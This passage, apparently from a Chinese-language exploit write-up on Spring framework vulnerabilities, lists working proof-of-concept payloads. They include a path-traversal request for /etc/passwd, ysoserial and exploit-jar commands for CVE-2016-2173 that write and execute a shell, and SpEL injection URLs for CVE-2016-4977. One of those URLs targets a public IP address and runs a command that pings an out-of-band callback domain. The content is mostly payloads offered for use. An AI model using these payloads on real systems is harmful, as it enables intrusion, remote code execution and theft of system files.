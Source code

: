 访问：

```


1.  `GET /springapp/css/file:/etc/passwd`


```

### [](#CVE-2016-2173-Spring-AMQP中的远程代码执行 "CVE-2016-2173 Spring AMQP中的远程代码执行")CVE-2016-2173 Spring AMQP中的远程代码执行

影响版本：1.0.0至1.5.4

[https://github.com/HaToan/CVE-2016-2173](https://github.com/HaToan/CVE-2016-2173)

使用方式：

```


1.  `- ysoserial-0.0.4-all.jar create payload write and execute a shell`
2.   `+ java -jar ysoserial-0.0.4-all.jar 'library_vul'  'command'`

4.  `- exploit-cve2016-2173.jar  : send to App vul`
5.   `+ java -jar exploit-cve2016-2173.jar` 


```

本来想根据配置来搭一个环境处理，结果环境一直搭不起来，构建各种失败，就先放这个利用poc把。

### [](#CVE-2016-4977-SpringSecurityOauth-远程命令执行漏洞 "CVE-2016-4977 SpringSecurityOauth 远程命令执行漏洞")CVE-2016-4977 SpringSecurityOauth 远程命令执行漏洞

影响版本：2.0.0-2.0.9、1.0.0-1.0.5

[https://www.seebug.org/vuldb/ssvid-92474](https://www.seebug.org/vuldb/ssvid-92474)

漏洞利用POC：

```


1.  `http://localhost:8080/oauth/authorize?response_type=token&client_id=acme&redirect_uri=${2334-1}`


```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/ff5a3b5b-7776-4104-9c3e-441344b49768.png?raw=true)

执行命令：

```


1.  `http://207.246.79.196:8080/oauth/authorize?response_type=token&client_id=acme&redirect_uri=${T(java.lang.Runtime).getRuntime().exec(%22ping%20xxx.ceye.io%22)}`


```
